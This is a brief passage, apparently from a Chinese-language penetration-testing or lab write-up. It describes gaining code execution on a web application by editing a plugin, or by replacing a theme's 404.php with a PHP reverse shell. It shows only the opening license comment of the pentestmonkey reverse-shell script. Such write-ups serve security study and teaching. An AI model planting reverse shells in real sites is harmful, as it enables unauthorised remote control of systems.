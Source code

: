 因此我们可以选择修改插件内容然后执行

或者模板注入



模板注入

![image-20250405214356068](./assets/image-20250405214356068.png)

将404.php内容替换为反弹shell脚本

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
```